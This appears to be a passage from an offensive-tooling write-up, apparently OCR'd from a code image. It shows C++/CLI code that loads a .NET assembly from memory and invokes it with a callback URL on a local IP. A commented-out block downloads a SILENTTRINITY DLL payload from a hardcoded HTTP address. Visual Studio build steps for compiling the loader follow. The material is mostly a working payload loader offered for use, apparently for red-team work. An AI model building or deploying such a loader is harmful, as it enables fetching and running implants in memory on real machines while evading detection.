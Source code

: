 ```cpp

	System::Runtime::InteropServices::Marshal::Copy(
		(System::IntPtr)dll, mdll, 0, mdll->Length);
	System::String^ cn =
		System::Runtime::InteropServices::Marshal::PtrToStringAnsi(
		(System::IntPtr)(char*)className);
	System::String^ mn =
		System::Runtime::InteropServices::Marshal::PtrToStringAnsi(
		(System::IntPtr)(char*)methodName);

	/**
	/Downloads the Assembly from a hardcoded URI. Comment out the stuff above.
	
	System::Net::WebClient ^_client = gcnew System::Net::WebClient();

	System::String ^uri = "http://192.168.197.133:8000/SILENTTRINITY_DLL.dll";

	System::Console::WriteLine("Downloading payload from: " + uri);

	cli::array<unsigned char>^ mdll = _client->DownloadData(uri);
	**/

	// used the converted parameters to load the DLL, find, and call the method.
	System::String^ args =
		System::Runtime::InteropServices::Marshal::PtrToStringAnsi(
		(System::IntPtr)(char*)"http://192.168.197.134:80");

	array< System::Object^ >^ arr = gcnew array< System::Object^ >(1);
	arr[0] = args;

	System::Reflection::Assembly^ a = System::Reflection::Assembly::Load(mdll);
	a->GetType(cn)->GetMethod(mn)->Invoke(nullptr, arr);
}
```

But, anyway, it works. Allow me to explain.

### Creating a Testing Program



### Getting Visual Studios to Cooperate

It takes a bit of convincing to get Visual Studios to use C++/CLI. Just inserting the code above into a project will result in compiler errors. As such, follow the guide below to ensure that your project can compile:

If you are using a new project and want to add a new managed code .cpp, you must change some settings in Visual Studio. 1. 

1. Create a .cpp Source File like normal.
2. Right click on it in the Solution Explorer and click Properties.
3. Go to Configuration Properties > C/C++ > General > Common Language RunTime Support and select the "Common Language RunTime Support /clr" option. Do this for both Debug and Release Mode.
4. In debug mode, open the Properties for the file like above. Navigate to Properties > C/C++ > General > Debug Information Format and select the "None" option.
5. In both Debug and Release mode, open the Properties for the file like above. Navigate to Properties > C/C++ > Code Generation > Enable C++ Exceptions and select "No".
6. Follow the instructions in this article to disable Runtime Checking for Debug mode: https://gregs-blog.com/2007/12/31/how-to-fix-visual-studio-bug-rtc1-and-clr-options-are-incompatible/
7. In both Debug and Release mode, open the Properties for the file like above. Navigate to Properties > C/C++ > Precompiled Header option and select "Not using Precompiled Headers".
8. The build should now succeed.
9. Test loading the DLL with the DemoLoad program.

